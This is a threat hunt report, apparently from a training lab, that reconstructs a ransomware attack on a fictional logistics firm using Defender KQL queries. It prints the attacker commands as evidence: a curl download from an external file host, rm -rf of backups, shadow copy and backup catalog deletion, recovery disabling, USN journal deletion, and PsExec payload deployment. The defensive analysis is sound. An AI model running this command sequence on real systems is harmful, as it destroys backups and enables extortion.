

# Threat Hunt Report - Dead in the Water

- **Hunt Name:** Dead in the Water - Azuki Ransomware
- **Author:** Thong Huynh
- **Date:** 2025-11-27
- **Environment:** Microsoft Defender for Endpoint
- **Hunt Type:** Hypothesis-Driven Threat Hunt
- **Severity:** Critical (Confirmed Ransomware Deployment)

## Executive Summary

A multi-stage ransomware attack was executed against Azuki Import/Export following an initial compromise one week prior. The threat actors demonstrated advanced operational security and targeted critical infrastructure to maximize impact and prevent recovery.

The attack progression followed a deliberate sequence: lateral movement to the Linux backup server via SSH, systematic destruction of all backup archives and configurations, remote deployment of ransomware payloads across Windows systems using PsExec, comprehensive inhibition of recovery mechanisms, establishment of persistence, and anti-forensic cleanup before encryption.

The threat actors displayed sophisticated understanding of enterprise recovery infrastructure, disabling shadow copies, backup services, system recovery options, and deleting file system journals to impede forensic analysis. Ransomware was deployed across multiple systems simultaneously with the payload `silentlynx.exe`, culminating in widespread encryption and ransom note deployment.

**Outcome:**  
- Critical backup infrastructure compromised and destroyed  
- Ransomware successfully deployed across enterprise  
- All recovery mechanisms systematically disabled  
- Persistence mechanisms established for re-compromise  
- Forensic evidence actively destroyed  

## Hunt Objective & Hypothesis

**Objective:**  
Reconstruct the ransomware deployment phase of the Azuki breach to understand how threat actors progressed from initial compromise to complete organizational encryption, identify the sequence of recovery inhibition activities, and determine the full scope of systems impacted.

**Hypothesis:**  
If threat actors executed a pre-planned ransomware deployment following their initial compromise, endpoint telemetry will reveal: lateral movement to backup infrastructure via legitimate remote access protocols, systematic destruction of backup data and services, coordinated ransomware distribution using administrative tools, comprehensive disabling of Windows recovery mechanisms, establishment of persistence for potential re-compromise, and anti-forensic activities to impede investigation.

## Data Sources

| Data Source            | Platform |
|------------------------|----------|
| DeviceProcessEvents    | Microsoft Defender for Endpoint |
| DeviceFileEvents       | Microsoft Defender for Endpoint |
| DeviceNetworkEvents    | Microsoft Defender for Endpoint |
| DeviceRegistryEvents   | Microsoft Defender for Endpoint |

## Scope

- **Time Range:** `2025-11-27` (ransomware deployment phase, one week following initial compromise)
- **Assets in Scope:** Azuki Logistics corporate network infrastructure  
- **Primary Targets:** azuki-backup01 (Linux), azuki-logisticspc, azuki-fileserver, azuki-adminpc  
- **Compromised Accounts:** backup-admin (Linux), kenji.sato (Windows domain)
 
## Methodology

This hunt followed a **attack chain reconstruction approach**:

1. Established investigation scope across all Azuki network devices using device name filters
2. Identified lateral movement to backup infrastructure through SSH connections
3. Reconstructed attacker activities on Linux backup server through process execution timeline
4. Tracked ransomware deployment mechanism via remote administration tools
5. Documented recovery inhibition techniques across Windows endpoints
6. Identified persistence mechanisms established during the attack
7. Correlated anti-forensic activities with attack timeline
8. Mapped observed behaviors to MITRE ATT&CK framework for comprehensive coverage

The investigation prioritized understanding the attack's operational sequence to identify critical decision points where detection or prevention could have occurred, and to inform future defensive improvements.

## Investigation Timeline

| Phase | Event |
|-------|-------|
| **Phase 1: Linux Backup Server Compromise** | |
| | SSH connection established from compromised workstation (10.1.0.108) to backup server (10.1.0.189) using backup-admin account |
| | Backup directory enumeration executed (`ls -la /backups/`) |
| | Backup archive search performed (`find /backups -name *.tar.gz`) |
| | Local account enumeration (`cat /etc/passwd`) |
| | Scheduled job reconnaissance (`cat /etc/crontab`) |
| | External tool downloaded (`curl -L -o destroy.7z https://litter.catbox.moe/io523y.7z`) |
| | Credential file accessed (`cat /backups/configs/all-credentials.txt`) |
| | Mass backup destruction initiated (`rm -rf /backups/*`) |
| | Backup service stopped (`systemctl stop cron`) |
| | Backup service permanently disabled (`systemctl disable cron`) |
| **Phase 2: Windows Ransomware Deployment** | |
| | PsExec64.exe used for remote ransomware deployment to Windows systems |
| | Payload silentlynx.exe deployed to target systems using kenji.sato credentials |
| **Phase 3: Recovery Inhibition** | |
| | Volume Shadow Copy service stopped (`net stop VSS /y`) |
| | Windows backup engine stopped (`net stop wbengine /y`) |
| | SQL Server process terminated to unlock database files (`taskkill /F /IM sqlservr.exe`) |
| | All shadow copies deleted (`vssadmin delete shadows /all /quiet`) |
| | Shadow storage limited to minimal size (`vssadmin resize shadowstorage /maxsize=401MB`) |
| | System recovery disabled (`bcdedit /set {default} recoveryenabled No`) |
| | Backup catalog deleted (`wbadmin delete catalog -quiet`) |
| **Phase 4: Persistence Establishment** | |
| | Registry autorun key created (WindowsSecurityHealth value) |
| | Scheduled task created (Microsoft\Windows\Security\SecurityHealthService) |
| **Phase 5: Anti-Forensics** | |
| | USN journal deleted to destroy forensic timeline (`fsutil.exe usn deletejournal /D C:`) |
| **Phase 6: Ransomware Execution** | |
| | Mass encryption executed across all Windows systems |
| | Ransom notes deployed (SILENTLYNX_README.txt) across all encrypted systems |

## Key Findings

The following findings illustrate the systematic nature of this ransomware deployment and the threat actors' deliberate effort to eliminate all recovery options before encryption.

### Targeted Backup Infrastructure Destruction
- Threat actors laterally moved to the Linux backup server via SSH using the backup-admin account from a compromised workstation (10.1.0.108). They systematically enumerated backup directories, searched for archive files, downloaded destruction tools from external infrastructure, accessed credential files, and executed comprehensive backup deletion across all directories. Both the cron service was stopped and permanently disabled, ensuring backups could not resume even after system restart.

### Coordinated Ransomware Distribution
- PsExec64.exe was leveraged to remotely execute the silentlynx.exe payload across multiple Windows systems simultaneously using compromised domain credentials (kenji.sato). This remote administration tool enabled rapid, coordinated deployment across the enterprise environment, ensuring simultaneous encryption to maximize impact and prevent isolation of affected systems.

### Comprehensive Recovery Inhibition
- Before encryption, the ransomware systematically disabled all Windows recovery mechanisms: stopping Volume Shadow Copy and Windows Backup services, terminating SQL Server processes to unlock database files, deleting all existing shadow copies, limiting shadow storage to minimal size, disabling boot-time system recovery, and deleting the Windows backup catalog. This multi-layered approach ensured no local recovery options remained available.

### Persistence for Potential Re-Compromise
- Threat actors established multiple persistence mechanisms to maintain access beyond the ransomware deployment. A registry autorun value (WindowsSecurityHealth) and scheduled task (Microsoft\Windows\Security\SecurityHealthService) were created, both using security-themed naming to evade casual inspection. These persistence methods would enable re-compromise even if the organization restored from offline backups.

### Anti-Forensic Evidence Destruction
- Prior to final encryption, the USN (Update Sequence Number) journal was deleted using fsutil.exe. This NTFS journal tracks all file system changes and is critical for forensic timeline reconstruction. By deleting it, threat actors significantly impaired incident response capabilities and made determining the full scope of file access and modification substantially more difficult.

## MITRE ATT&CK Mapping

The observed behaviors were mapped to MITRE ATT&CK techniques to contextualize the attack within established adversary tradecraft and support detection engineering efforts.

| Tactic              | Technique                                | ID        |
|---------------------|-------------------------------------------|-----------|
| Lateral Movement    | Remote Services - SSH                     | T1021.004 |
| Lateral Movement    | SMB/Windows Admin Shares                  | T1021.002 |
| Credential Access   | Valid Accounts - Domain Accounts          | T1078.002 |
| Credential Access   | Unsecured Credentials - Credentials In Files | T1552.001 |
| Discovery           | File and Directory Discovery              | T1083     |
| Discovery           | Account Discovery - Local Account         | T1087.001 |
| Command and Control | Ingress Tool Transfer                     | T1105     |
| Impact              | Data Destruction                          | T1485     |
| Impact              | Service Stop                              | T1489     |
| Execution           | User Execution - Malicious File           | T1204.002 |
| Impact              | Inhibit System Recovery                   | T1490     |
| Defense Evasion     | Impair Defenses - Disable or Modify Tools | T1562.001 |
| Persistence         | Registry Run Keys / Startup Folder        | T1547.001 |
| Persistence         | Scheduled Task/Job                        | T1053.005 |
| Defense Evasion     | Indicator Removal on Host - File Deletion | T1070.004 |
| Impact              | Data Encrypted for Impact                 | T1486     |

## Indicators of Compromise (IOCs)

The following indicators were identified during the investigation and may be used for threat hunting, scoping additional systems, and detection rule development.

| Type                    | Value |
|-------------------------|-------|
| Hostname (Linux)        | azuki-backup01 |
| Hostname (Windows)      | azuki-logisticspc, azuki-fileserver, azuki-adminpc |
| Account Name            | backup-admin, kenji.sato |
| Ransomware Payload      | silentlynx.exe |
| Destruction Tool        | destroy.7z |
| Lateral Movement Tool   | PsExec64.exe |
| Ransom Note             | SILENTLYNX_README.txt |
| IP Address (Backup)     | 10.1.0.189 |
| IP Address (Source)     | 10.1.0.108, 10.1.0.102 |
| External URL            | https://litter.catbox.moe/io523y.7z |
| Registry Value          | WindowsSecurityHealth |
| Scheduled Task          | Microsoft\Windows\Security\SecurityHealthService |

## Response Actions

- Isolate all affected systems from the network immediately
- Reset credentials for backup-admin and kenji.sato accounts
- Reset credentials for all privileged accounts as a precautionary measure
- Remove persistence mechanisms (WindowsSecurityHealth registry key and SecurityHealthService scheduled task)
- Conduct organization-wide password reset
- Preserve forensic images of all affected systems before recovery
- Restore systems from verified clean offline backups (if available)
- Implement network segmentation to isolate backup infrastructure
- Disable PsExec and similar remote administration tools across the environment
- Review and harden SSH access controls and implement MFA
- Conduct comprehensive threat hunt for additional compromised systems
- Engage with law enforcement and consider breach disclosure requirements

## Detection Gaps & Improvements

The attack succeeded due to multiple detection and prevention gaps. SSH lateral movement to backup infrastructure was not monitored or alerted. Legitimate administrative tools (PsExec) were used for malicious purposes without behavioral context triggering alerts. Mass file deletion on the backup server occurred without protective controls or alerting. Simultaneous execution of recovery inhibition commands across multiple systems did not generate correlated alerts. Persistence mechanisms using security-themed naming successfully evaded casual inspection.

**Improvements:**
- Deploy EDR/SIEM alerting for SSH connections to backup infrastructure from non-administrative endpoints
- Implement behavioral analytics for administrative tool usage (PsExec, remote execution)
- Enable file integrity monitoring and deletion alerting on backup repositories
- Create correlation rules for rapid execution of vssadmin, bcdedit, wbadmin, and fsutil commands
- Implement scheduled task and registry autorun monitoring with anomaly detection
- Deploy immutable backup solutions with air-gapped or cloud-based storage
- Require MFA for all administrative and backup access
- Implement application whitelisting and restrict unauthorized tool execution
- Enhance network segmentation between user workstations and critical infrastructure
- Establish baseline monitoring for normal backup operations to detect deviations

## Lessons Learned

- Backup infrastructure must be treated as Tier 0 critical assets with equivalent security controls
- Administrative tools provide legitimate functionality that can be weaponized without behavioral monitoring
- Recovery inhibition techniques are well-documented and should have preventive controls, not just detective
- Persistence mechanisms using security-themed naming can evade manual inspection
- Credential files stored on backup servers present single points of compromise
- Offline or immutable backups are essential for ransomware recovery scenarios
- Time between initial compromise and ransomware deployment provides detection opportunity if properly monitored
- Coordinated, simultaneous attack actions require equally coordinated detection and response capabilities

## Recommendations

- Implement the 3-2-1 backup strategy with at least one copy offline and immutable
- Deploy privileged access management (PAM) for all administrative and backup accounts
- Enforce MFA for all remote access, including SSH and Windows remote administration
- Restrict lateral movement capabilities through network micro-segmentation
- Deploy tamper-resistant EDR on all systems including Linux backup servers
- Implement application control to prevent unauthorized tool execution
- Create detection rules for ransomware recovery inhibition command sequences
- Establish regular tabletop exercises for ransomware incident response
- Conduct regular backup restoration testing to verify recovery capabilities
- Implement file integrity monitoring on backup repositories with automated alerting
- Review and eliminate credential storage in plaintext configuration files
- Establish comprehensive logging and long-term retention for all Tier 0 systems

<details>
<summary><h2><strong>Appendix: Supporting Queries and Evidence (click to expand)</strong></h2></summary>

The following sections document the investigative queries used during the hunt, along with the corresponding evidence observed in endpoint telemetry to support each finding.

### Finding: SSH Lateral Movement to Backup Server

```kql
let start = datetime(2025-11-10);
let end   = datetime(2025-12-10);
DeviceProcessEvents
| where TimeGenerated between (start .. end)
| where DeviceName contains "azuki"
| where InitiatingProcessCommandLine has "ssh" or ProcessCommandLine has "ssh"
| project TimeGenerated, DeviceName, AccountName, FileName, ProcessCommandLine, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by TimeGenerated desc
```

**Evidence observed:**  
`"ssh.exe" backup-admin@10.1.0.189`

**Why it matters:**  
SSH connection from a workstation to backup infrastructure indicates lateral movement to critical assets.

---

### Finding: Attack Source Identification

```kql
let start = datetime(2025-11-10);
let end   = datetime(2025-12-10);
DeviceNetworkEvents
| where TimeGenerated between (start .. end)
| where DeviceName contains "azuki-"
| project TimeGenerated, DeviceName, LocalIP, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by TimeGenerated desc
```

**Evidence observed:**  
`10.1.0.108`

**Why it matters:**  
Identifies the compromised workstation initiating the attack on backup infrastructure.

---

### Finding: Compromised Account on Backup Server

```kql
let start = datetime(2025-11-10);
let end   = datetime(2025-12-10);
DeviceLogonEvents
| where TimeGenerated between (start .. end)
| where DeviceName contains "azuki-back"
| order by TimeGenerated desc
| project TimeGenerated, DeviceName, AccountName, ActionType, LogonType, RemoteIP, RemoteDeviceName
| where ActionType == "LogonSuccess"
| summarize account = count() by AccountName
```

**Evidence observed:**  
`backup-admin`

**Why it matters:**  
Administrative backup account provides full access to backup infrastructure and stored credentials.

---

### Finding: Backup Directory Enumeration

```kql
let start = datetime(2025-11-10);
let end   = datetime(2025-12-10);
DeviceProcessEvents
| where TimeGenerated between (start .. end)
| where DeviceName contains "azuki-back"
| where InitiatingProcessCommandLine has "ls" or ProcessCommandLine has "ls"
| project TimeGenerated, DeviceName, AccountName, FileName, ProcessCommandLine, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by TimeGenerated desc
```

**Evidence observed:**  
`ls --color=auto -la /backups/`

**Why it matters:**  
Directory listing reveals backup structure and targets for destruction.

---

### Finding: Backup Archive Discovery

```kql
let start = datetime(2025-11-10);
let end   = datetime(2025-12-10);
DeviceProcessEvents
| where TimeGenerated between (start .. end)
| where DeviceName contains "azuki-back"
| where InitiatingProcessCommandLine has "find" or ProcessCommandLine has "find"
| where ProcessCommandLine contains "backup"
| project TimeGenerated, DeviceName, AccountName, FileName, ProcessCommandLine, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by TimeGenerated desc
```

**Evidence observed:**  
`find /backups -name *.tar.gz`

**Why it matters:**  
Searching for archive files indicates targeting of backup data for destruction.

---

### Finding: Local Account Enumeration

```kql
let start = datetime(2025-11-10);
let end   = datetime(2025-12-10);
DeviceProcessEvents
| where TimeGenerated between (start .. end)
| where DeviceName contains "azuki-back"
| where ProcessCommandLine contains "passwd"
| project TimeGenerated, DeviceName, AccountName, FileName, ProcessCommandLine, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by TimeGenerated desc
```

**Evidence observed:**  
`cat /etc/passwd`

**Why it matters:**  
Account enumeration provides understanding of user base and potential privilege escalation paths.

---

### Finding: Scheduled Job Reconnaissance

```kql
let start = datetime(2025-11-10);
let end   = datetime(2025-12-10);
DeviceProcessEvents
| where TimeGenerated between (start .. end)
| where DeviceName contains "azuki-back"
| where InitiatingProcessCommandLine has "cat" or ProcessCommandLine has "cat"
| where ProcessCommandLine contains "cron"
| project TimeGenerated, DeviceName, AccountName, FileName, ProcessCommandLine, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by TimeGenerated desc
```

**Evidence observed:**  
`cat /etc/crontab`

**Why it matters:**  
Understanding backup schedules allows attackers to time destruction for maximum impact.

---

### Finding: External Tool Download

```kql
let start = datetime(2025-11-10);
let end   = datetime(2025-12-10);
DeviceProcessEvents
| where TimeGenerated between (start .. end)
| where DeviceName contains "azuki-back"
| where ProcessCommandLine contains "curl"
| project TimeGenerated, DeviceName, AccountName, FileName, ProcessCommandLine, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by TimeGenerated desc
```

**Evidence observed:**  
`curl -L -o destroy.7z https://litter.catbox.moe/io523y.7z`

**Why it matters:**  
Downloading destruction tools from external infrastructure demonstrates pre-planned attack methodology.

---

### Finding: Credential File Access

```kql
let start = datetime(2025-11-10);
let end   = datetime(2025-12-10);
DeviceProcessEvents
| where TimeGenerated between (start .. end)
| where DeviceName contains "azuki-back"
| where ProcessCommandLine contains "cred"
| project TimeGenerated, DeviceName, AccountName, FileName, ProcessCommandLine, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by TimeGenerated desc
```

**Evidence observed:**  
`cat /backups/configs/all-credentials.txt`

**Why it matters:**  
Credential harvesting enables lateral movement and privilege escalation across the environment.

---

### Finding: Mass Backup Destruction

```kql
let start = datetime(2025-11-10);
let end   = datetime(2025-12-10);
DeviceProcessEvents
| where TimeGenerated between (start .. end)
| where DeviceName contains "azuki-back"
| where InitiatingProcessCommandLine contains "back" or ProcessCommandLine contains "bac"
| where ProcessCommandLine contains "rm"
| project TimeGenerated, DeviceName, AccountName, FileName, ProcessCommandLine, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by TimeGenerated desc
```

**Evidence observed:**  
`rm -rf /backups/archives /backups/azuki-adminpc /backups/azuki-fileserver /backups/azuki-logisticspc /backups/config-backups /backups/configs /backups/daily /backups/database-backups /backups/databases /backups/fileserver /backups/logs /backups/monthly /backups/weekly /backups/workstations`

**Why it matters:**  
Comprehensive deletion of all backup directories eliminates recovery options before ransomware deployment.

---

### Finding: Backup Service Stopped

```kql
let start = datetime(2025-11-10);
let end   = datetime(2025-12-10);
DeviceProcessEvents
| where TimeGenerated between (start .. end)
| where DeviceName contains "azuki-back"
| where InitiatingProcessCommandLine contains "systemctl stop" or ProcessCommandLine contains "systemctl stop"
| project TimeGenerated, DeviceName, AccountName, FileName, ProcessCommandLine, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by TimeGenerated desc
```

**Evidence observed:**  
`systemctl stop cron`

**Why it matters:**  
Stopping backup service prevents new backups from being created during the attack.

---

### Finding: Backup Service Permanently Disabled

```kql
let start = datetime(2025-11-10);
let end   = datetime(2025-12-10);
DeviceProcessEvents
| where TimeGenerated between (start .. end)
| where DeviceName contains "azuki-back"
| where InitiatingProcessCommandLine contains "systemctl disable" or ProcessCommandLine contains "systemctl disable"
| project TimeGenerated, DeviceName, AccountName, FileName, ProcessCommandLine, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by TimeGenerated desc
```

**Evidence observed:**  
`systemctl disable cron`

**Why it matters:**  
Disabling service ensures backups will not resume even after system restart.

---

### Finding: Remote Execution Tool Identification

```kql
let start = datetime(2025-11-10);
let end   = datetime(2025-12-10);
DeviceProcessEvents
| where TimeGenerated between (start .. end)
| where DeviceName contains "azuki"
| where InitiatingProcessCommandLine contains "wmic" or ProcessCommandLine contains "PsExec"
| project TimeGenerated, DeviceName, AccountName, FileName, ProcessCommandLine, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by TimeGenerated desc
```

**Evidence observed:**  
`PsExec64.exe`

**Why it matters:**  
PsExec enables remote command execution across Windows systems for ransomware distribution.

---

### Finding: Ransomware Deployment Command

```kql
let start = datetime(2025-11-10);
let end   = datetime(2025-12-10);
DeviceProcessEvents
| where TimeGenerated between (start .. end)
| where DeviceName contains "azuki"
| where InitiatingProcessCommandLine contains "wmic" or ProcessCommandLine contains "PsExec"
| project TimeGenerated, DeviceName, AccountName, FileName, ProcessCommandLine, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by TimeGenerated desc
```

**Evidence observed:**  
`"PsExec64.exe" \\10.1.0.102 -u kenji.sato -p ********** -c -f C:\Windows\Temp\cache\silentlynx.exe`

**Why it matters:**  
Full command reveals target system, compromised credentials, and ransomware payload location.

---

### Finding: Ransomware Payload Identification

```kql
let start = datetime(2025-11-10);
let end   = datetime(2025-12-10);
DeviceProcessEvents
| where TimeGenerated between (start .. end)
| where DeviceName contains "azuki"
| where InitiatingProcessCommandLine contains "wmic" or ProcessCommandLine contains "PsExec"
| project TimeGenerated, DeviceName, AccountName, FileName, ProcessCommandLine, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by TimeGenerated desc
```

**Evidence observed:**  
`silentlynx.exe`

**Why it matters:**  
Identifies the ransomware payload for threat hunting and IOC distribution.

---

### Finding: Shadow Copy Service Stopped

```kql
let start = datetime(2025-11-10);
let end   = datetime(2025-12-10);
DeviceProcessEvents
| where TimeGenerated between (start .. end)
| where DeviceName contains "azuki"
| where InitiatingProcessCommandLine contains "net" and ProcessCommandLine contains "vss"
| where ProcessCommandLine contains "stop"
| project TimeGenerated, DeviceName, AccountName, FileName, ProcessCommandLine, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by TimeGenerated desc
```

**Evidence observed:**  
`"net" stop VSS /y`

**Why it matters:**  
Stopping VSS prevents creation of new shadow copies during encryption.

---

### Finding: Backup Engine Service Stopped

```kql
let start = datetime(2025-11-10);
let end   = datetime(2025-12-10);
DeviceProcessEvents
| where TimeGenerated between (start .. end)
| where DeviceName contains "azuki"
| where InitiatingProcessCommandLine contains "net" and ProcessCommandLine contains "wbengine"
| where ProcessCommandLine contains "stop"
| project TimeGenerated, DeviceName, AccountName, FileName, ProcessCommandLine, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by TimeGenerated desc
```

**Evidence observed:**  
`"net" stop wbengine /y`

**Why it matters:**  
Stopping Windows Backup engine prevents automated backup operations during attack.

---

### Finding: Process Termination to Unlock Files

```kql
let start = datetime(2025-11-10);
let end   = datetime(2025-12-10);
DeviceProcessEvents
| where TimeGenerated between (start .. end)
| where DeviceName contains "azuki"
| where ProcessCommandLine contains "taskkill"
| project TimeGenerated, DeviceName, AccountName, FileName, ProcessCommandLine, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by TimeGenerated desc
```

**Evidence observed:**  
`"taskkill" /F /IM sqlservr.exe`

**Why it matters:**  
Terminating SQL Server releases database file locks for successful encryption.

---

### Finding: Shadow Copy Deletion

```kql
let start = datetime(2025-11-10);
let end   = datetime(2025-12-10);
DeviceProcessEvents
| where TimeGenerated between (start .. end)
| where DeviceName contains "azuki"
| where InitiatingProcessCommandLine contains "delete" or ProcessCommandLine contains "delete"
| where ProcessCommandLine contains "vss"
| project TimeGenerated, DeviceName, AccountName, FileName, ProcessCommandLine, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by TimeGenerated desc
```

**Evidence observed:**  
`"vssadmin" delete shadows /all /quiet`

**Why it matters:**  
Deleting all shadow copies eliminates point-in-time recovery options.

---

### Finding: Shadow Storage Limitation

```kql
let start = datetime(2025-11-10);
let end   = datetime(2025-12-10);
DeviceProcessEvents
| where TimeGenerated between (start .. end)
| where DeviceName contains "azuki"
| where InitiatingProcessCommandLine contains "resize" or ProcessCommandLine contains "size"
| where ProcessCommandLine contains "vss"
| project TimeGenerated, DeviceName, AccountName, FileName, ProcessCommandLine, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by TimeGenerated desc
```

**Evidence observed:**  
`"vssadmin" resize shadowstorage /for=C: /on=C: /maxsize=401MB`

**Why it matters:**  
Limiting shadow storage prevents new shadow copies from being created.

---

### Finding: System Recovery Disabled

```kql
let start = datetime(2025-11-10);
let end   = datetime(2025-12-10);
DeviceProcessEvents
| where TimeGenerated between (start .. end)
| where DeviceName contains "azuki"
| where ProcessCommandLine contains "bcdedit"
| project TimeGenerated, DeviceName, AccountName, FileName, ProcessCommandLine, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by TimeGenerated desc
```

**Evidence observed:**  
`"bcdedit" /set {default} recoveryenabled No`

**Why it matters:**  
Disabling boot recovery prevents automatic repair after encryption damage.

---

### Finding: Backup Catalog Deletion

```kql
let start = datetime(2025-11-10);
let end   = datetime(2025-12-10);
DeviceProcessEvents
| where TimeGenerated between (start .. end)
| where DeviceName contains "azuki"
| where ProcessCommandLine contains "delete cat"
| project TimeGenerated, DeviceName, AccountName, FileName, ProcessCommandLine, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by TimeGenerated desc
```

**Evidence observed:**  
`"wbadmin" delete catalog -quiet`

**Why it matters:**  
Deleting backup catalog removes tracking of available restore points.

---

### Finding: Registry Persistence Mechanism

```kql
let start = datetime(2025-11-10);
let end   = datetime(2025-12-10);
DeviceRegistryEvents
| where TimeGenerated between (start .. end)
| where DeviceName contains "azuki"
| where RegistryKey has_any (
    @"CurrentVersion\Run",
    @"CurrentVersion\RunOnce",
    @"Winlogon",
    @"CurrentControlSet\Services"
)
| project TimeGenerated, ActionType, DeviceName, RegistryKey, RegistryValueName, RegistryValueData
| order by TimeGenerated
```

**Evidence observed:**  
`WindowsSecurityHealth`

**Why it matters:**  
Registry autorun key provides persistence across system reboots.

---

### Finding: Scheduled Task Persistence

```kql
let start = datetime(2025-11-10);
let end   = datetime(2025-12-10);
DeviceProcessEvents
| where TimeGenerated between (start .. end)
| where DeviceName contains "azuki-sl"
| where ProcessCommandLine contains "sch"
| project TimeGenerated, DeviceName, AccountName, FileName, ProcessCommandLine, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by TimeGenerated desc
```

**Evidence observed:**  
`Microsoft\Windows\Security\SecurityHealthService`

**Why it matters:**  
Scheduled task provides reliable persistence with configurable triggers.

---

### Finding: Forensic Journal Deletion

```kql
let start = datetime(2025-11-10);
let end   = datetime(2025-12-10);
DeviceProcessEvents
| where TimeGenerated between (start .. end)
| where DeviceName contains "azuki"
| where ProcessCommandLine contains ("fsutil")
| project TimeGenerated, DeviceName, AccountName, FileName, ProcessCommandLine, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by TimeGenerated desc
```

**Evidence observed:**  
`"fsutil.exe" usn deletejournal /D C:`

**Why it matters:**  
Deleting USN journal destroys forensic timeline and impedes investigation.

---

### Finding: Ransom Note Deployment

```kql
let start = datetime(2025-11-10);
let end   = datetime(2025-12-10);
DeviceProcessEvents
| where TimeGenerated between (start .. end)
| where DeviceName contains "azuki"
| where ProcessCommandLine contains ("silent")
| project TimeGenerated, DeviceName, AccountName, FileName, ProcessCommandLine, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by TimeGenerated desc
```

**Evidence observed:**  
`SILENTLYNX_README.txt`

**Why it matters:**  
Ransom note indicates successful encryption and attacker's payment demands.

</details>
